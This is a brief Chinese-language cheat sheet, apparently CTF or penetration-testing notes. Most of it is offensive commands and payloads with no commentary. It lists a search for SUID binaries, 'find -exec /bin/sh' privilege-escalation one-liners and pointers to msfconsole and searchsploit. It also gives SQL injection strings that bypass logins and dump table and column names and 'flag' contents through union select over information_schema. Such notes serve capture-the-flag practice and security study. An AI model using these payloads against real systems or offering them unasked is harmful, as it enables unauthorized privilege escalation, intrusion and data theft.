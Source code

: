 ### `find` 提权

```
find / -perm -u=s -type f 2>/dev/null


1. find ./ acce -exec '/bin/sh' \;

2. touch bcce
find bcce -exec '/bin/sh' \;
```

### `searchsploit`

```
msfconsole
searchsploit
/usr/share/exploitdb
```

### `SQL` 注入

```
username=a' or 1 #
a' or 1 union select 1,group_concat(flag),3 from flag#            

table_schema=database();                           


admin' or '1'='1' 
union select 1,group_concat(column_name),3 
from information_schema.columns 
where table_name='flag'#
```

